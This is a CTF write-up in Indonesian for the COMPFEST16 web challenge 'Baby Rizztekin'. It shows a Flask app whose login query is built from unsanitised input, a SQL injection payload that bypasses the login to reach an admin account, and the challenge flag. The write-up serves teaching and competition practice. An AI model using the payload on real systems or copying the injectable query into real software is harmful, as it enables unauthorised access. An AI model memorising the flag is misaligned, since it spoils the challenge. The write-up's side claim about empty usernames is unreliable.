 # [500 pts] Baby Rizztekin
### Category: Web Exploitation

**Deskripsi:**
> This is the rizztekin prototype I built long ago, but meervix rewrote it, hmph! I'm sure this one is better.  
>  
> Author: rorre  
>  
> http://challenges.ctf.compfest.id:20003

**app.py:**
```python
from hashlib import sha256
from flask import Flask, redirect, request, g
import os
import sqlite3

FLAG = "COMPFEST16{FLAG}"
SECRET = os.getenv("SECRET") or "epicsecret"
app = Flask(__name__)


def init():
    db = sqlite3.connect("/tmp/app.db")
    db.execute(
        """CREATE TABLE IF NOT EXISTS users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT NOT NULL,
        password TEXT NOT NULL,
        is_admin INT DEFAULT 0 NOT NULL
        );"""
    )

    # DO NOT SAVE PLAINTEXT PASSWORD IN REAL LIFE!!!!!!!!!!!!!!!!!!
    # Use hashing and salting to save password
    db.execute(
        """INSERT OR IGNORE INTO users(id, username, password, is_admin) VALUES
            (1, 'rorre', 'meow', 0),
            (2, 'meervix', 'toksik', 0);
            """
    )
    db.commit()


def get_db():
    db = getattr(g, "_database", None)
    if db is None:
        db = g._database = sqlite3.connect("/tmp/app.db")
    return db


def query(sql: str, params: list[object] | None = None):
    cur = get_db().cursor()
    if not params:
        params = []

    results = []
    for s in sql.split(";"):
        cur.execute(s, params)
        results.append(cur.fetchall())

    get_db().commit()
    return results


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, "_database", None)
    if db is not None:
        db.close()


def create_hash(value: str):
    return sha256((value + SECRET).encode()).hexdigest()


def parse_cookie(value: str):
    try:
        value, hash = value.split("-")
        if create_hash(value) != hash:
            return False, None
        return True, value
    except:
        return False, None


@app.get("/")
def index():
    valid, user = parse_cookie(request.cookies.get("user_id", ""))
    if not valid:
        user = "Guest"

    bottom = "<a href='/login'>Login</a>"
    if user != "Guest":
        row = query("SELECT username, is_admin FROM users WHERE id = ?", [user])[0]
        if row:
            user = row[0][0]
            bottom = "<a href='/logout'>Logout</a>"
            if row[0][1] == 1:
                bottom += f"<p>Flag: {FLAG}</p>"
        else:
            user = "Guest"

    return f"<p>Hello, {user}.</p>{bottom}"


@app.get("/logout")
def logout():
    resp = redirect("/")
    resp.delete_cookie("user_id")
    return resp


@app.get("/login")
def login():
    return """
<form method="POST">
    <label for="username">Username:</label><br>
    <input type="text" id="username" name="username"><br>
    
    <label for="password">Password:</label><br>
    <input type="password" id="password" name="password"><br><br>
    
    <input type="submit" value="Submit">
</form>
"""


@app.post("/login")
def process_login():
    username = request.form.get("username")
    password = request.form.get("password")
    if not all([username, password]):
        return redirect("/login")

    row = query(f"SELECT id FROM users WHERE username = '{username}' AND password = '{password}'")[0]
    if not row:
        return redirect("/login")

    resp = redirect("/")
    resp.set_cookie("user_id", str(row[0][0]) + "-" + create_hash(str(row[0][0])))
    return resp


if __name__ == "__main__":
    init()
    app.run()
```

### Solusi

Dengan membuka link [challenge](http://challenges.ctf.compfest.id:20003), didapatkan halaman web: 

![Main page](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-14%20234128.png)

Kemudian setelah meng-klik tombol login, didapatkan halaman login:  

![Login page](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-14%20234135.png)

Source code python dari website menggunakan sql sebagai database, kemungkinan besar dapat kita lakukan sql injection pada laman login.

Untuk membuktikannya mari perhatikan dua fungsi berikut:
```python
def process_login():
    username = request.form.get("username")
    password = request.form.get("password")
    if not all([username, password]):
        return redirect("/login")

    row = query(f"SELECT id FROM users WHERE username = '{username}' AND password = '{password}'")[0]
    if not row:
        return redirect("/login")

    resp = redirect("/")
    resp.set_cookie("user_id", str(row[0][0]) + "-" + create_hash(str(row[0][0])))
    return resp

@app.get("/")
def index():
    valid, user = parse_cookie(request.cookies.get("user_id", ""))
    if not valid:
        user = "Guest"

    bottom = "<a href='/login'>Login</a>"
    if user != "Guest":
        row = query("SELECT username, is_admin FROM users WHERE id = ?", [user])[0]
        if row:
            user = row[0][0]
            bottom = "<a href='/logout'>Logout</a>"
            if row[0][1] == 1:
                bottom += f"<p>Flag: {FLAG}</p>"
        else:
            user = "Guest"

    return f"<p>Hello, {user}.</p>{bottom}"
```
Fungsi process_login() dipanggil saat kita melakukan submit pada halaman login. Fungsi akan melakukan query sql dengan statement:
```sql
SELECT id FROM users WHERE username = '{username}' AND password = '{password}'
```

Input dari user untuk query tidak di validasi sehingga bisa saja langsung dilakukan sql injection. Namun, ada syarat tambahan yang perlu kita lakukan.

Pada fungsi index(), terlihat bahwa flag akan ditampilkan jika row[0][1] = 1. row sendiri merupakan hasil dari query sql yang mengambil column 'username' dan 'is_admin' dari user yang memiliki id = user_id.

Sementara 'user_id' adalah cookies yang didapat dari proses login, artinya 'user_id' ditetapkan setelah kita melakukan login.

> row[0] : hasil query dari user pertama yang memenuhi kondisi (kemungkinan ada lebih dari satu user)  
> row[0][0] : username dari user pertama yang memiliki id = user_id  
> row[0][1] : nilai 'is_admin' dari user pertama yang memiliki id = user_id

Sehingga kesimpulannya, agar flag ditampilkan kita harus login dengan akun yang memiliki nilai 'is_admin' = 1.

Maka akan kita masukkan payload injection ke password, username dapat diisi string apa saja selain string kosong. Payload yang sesuai yaitu:
```sql
' OR '1' AND is_admin = '1
```

> **Note:** Username tidak boleh string kosong karena ada pengecekan pada process_login(), jika username atau password kosong maka akan otomatis login dengan user 'guest'.

Jika kita masukkan payload ke query di fungsi process_login(), maka query akan menjadi:
```sql
SELECT id FROM users WHERE username = '(random_string)' AND password = '' OR '1' AND is_admin = '1'
```

Query tersebut dapat disederhanakan menjadi hanya:
```sql
SELECT id FROM users WHERE is_admin = '1'
```

Sehingga setelahnya, didapat halaman web yang menampilkan flag:  
![Flag](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/asset/Screenshot%202024-08-15%20074855.png)

> Flag: **COMPFEST16{aLw4Ys_uS3_pr3P4reD_st4tEm3NTS_e3ae331a90}**

